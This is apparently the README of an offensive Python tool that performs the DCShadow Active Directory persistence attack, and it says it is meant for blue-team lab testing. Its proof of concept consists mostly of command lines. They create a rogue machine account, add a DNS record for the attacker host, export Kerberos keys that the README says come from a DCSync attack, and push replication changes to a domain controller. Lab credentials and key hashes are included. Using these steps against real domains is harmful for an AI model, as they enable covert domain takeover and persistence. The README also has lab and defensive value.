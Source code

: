 > [!WARNING]
> This is meant for lab testing, for blue teams to work on identifying IoCs, event types, and behavior.
> Also, this tool is provided as-is. No support is planned apart from standard review on pull requests you may want to create.
> Don't run this from a Windows host. Do it from linux, or from a VM (to avoid RPC services conflicts).

# Background

This project is meant to be a pure-python alternative to Mimikatz's dcshadow technique. This includes a custom Impacket with modified `crypto`, `gssapi` and `drsuapi` among other things.

[DCShadow](https://www.thehacker.recipes/ad/persistence/dcshadow/) is a powerful persistence technique that could be considered as a transport for other techniques such as [SID history](https://www.thehacker.recipes/ad/persistence/sid-history), [KRBTGT RBCD](https://www.thehacker.recipes/ad/persistence/kerberos/delegation-to-krbtgt), [ACE abuse](https://www.thehacker.recipes/ad/persistence/dacl), and more.

This tool could be a foundation for a more versatile AD pertistence framework, that could be used by our community to raise our global maturity on the matter.

## 0. Install

```bash
# container
podman build -t dcshadow .
podman run -it --name dcshadow dcshadow
$ python3 dcshadow.py -h

# on host
python3 -m venv venv
source ./venv/bin/activate
pip3 install -r ./requirements.txt
pip3 install ./impacket
```

# Proof of Concept in Lab

> [!NOTE]
> This tool was tested on [GOAD](https://github.com/Orange-Cyberdefense/GOAD).

## 1. Create machine account

This machine will be registered as a domain controller for the duration of the replication, and will be unregistered at the end.

```bash
venv/bin/addcomputer.py -computer-name 'fake701$' -computer-pass '123soleil!' -method LDAPS -dc-host "kingslanding.sevenkingdoms.local" -dc-ip "192.168.10.10" -domain-netbios "sevenkingdoms" "sevenkingdoms.local"/"tyron.lannister":"Alc00L&S3x" -debug
```

> [!WARNING]
> adcomputer.py is modified to set `msDS-SupportedEncryptionTypes` to `0x1f`. Latest tests seem to raise a constraint violation.
> ```
> [+] Impacket Library Installation Path: /workspace/adpersist/venv/lib/python3.11/site-packages/impacket
> Traceback (most recent call last):
>  File "/workspace/adpersist/venv/bin/addcomputer.py", line 248, in run_ldaps
>    raise Exception(str(ldapConn.result))
> Exception: {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> [-] {'result': 19, 'description': 'constraintViolation', 'dn': '', 'message': '0000207C: AtrErr: DSID-03153410, #1:\n\t0: 0000207C: DSID-03153410, problem 1005 (CONSTRAINT_ATT_TYPE), data 0, Att 907ab (msDS-SupportedEncryptionTypes)\n\x00', 'referrals': None, 'type': 'addResponse'}
> ```
> For now, use the regular addcomputer.py script from Impacket, and modify `msDS-SupportedEncryptionTypes` manually through ADSI edit.

## 2. DNS entry for the machine

This is needed for the legit DC to know how to reach the rogue DC and avoid `ERROR_DS_DNS_LOOKUP_FAILURE` errors.

```bash
dnstool.py -u "sevenkingdoms.local"/"tyron.lannister" -p "Alc00L&S3x" --record 'fake701' --action add --data "$ATTACKER_IP" "kingslanding.sevenkingdoms.local"
```

> [!TIP]
> If the command doesn't work for some reason, add the DNS entry manually through the DNS tools on the domain controller.

## 3. Rogue DC credentials

When we started developping this tool, we were using hardcoded credentials in an .env file, loaded in the `gss_kerberos_ap_req` function in the `dcshadow/utils/server/RpcServer.py` file.

This clearly needs an upgrade. The password of the rogue DC account could be passed as CLI argument and kerberos keys calculated. Krbrelayx does that already, dacledit.py as well, it needs copy-pasting.

For now you need to export the Kerberos keys as environment variables.

It should look like this:

```
export RC4=652c1be004ef335aa218cfed8e9297fc
export AES128=710b676a1fec1c68edc44b759aace44a
export AES256=bc7564c2e7a2bc740c277ec39f8c5d81e03df8001b7d670f5b46c177242a8bbc
```

Those keys can be retrieve with through a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) attack.

## 4. DCShadow (JSON file)

```bash
python3 dcshadow.py --json repl.json --domain "sevenkingdoms.local" --user "cersei.lannister" --password "il0vejaime" --dc-ip "192.168.10.10" --legit-dc-fqdn "kingslanding.sevenkingdoms.local" --rogue-dc-name "fake701"
```

> [!TIP]
> In this case, a `repl.json` file is used to specify the target objects and attributes. Alternatively, the tool supports inline options (e.g., `--object`, `--attribute`, and `--value`).

# Common errors

## DRSReplicaAdd: timed out

If the DRSReplicaAdd times out, it probably is a networking/firewall issue on the machine running dcshadow.py (the rogue DC), that's probably not allowing incoming trafic on 135/TCP (epmapper) and 1337/TCP (or dynamic port if implemented in the future, for drsuapi)

## DRSReplicaAdd: rpc_s_access_denied

You'd need to run Wireshark on the legit domain controller, but the most probably root cause is you're trying to run this on a Windows machine, meaning when the legit DC asks your rogue DC's epmapper for the port of the drsuapi endpoint, the answer is empty since it's your own windows machine's epmapper that's responding and not our custom one.


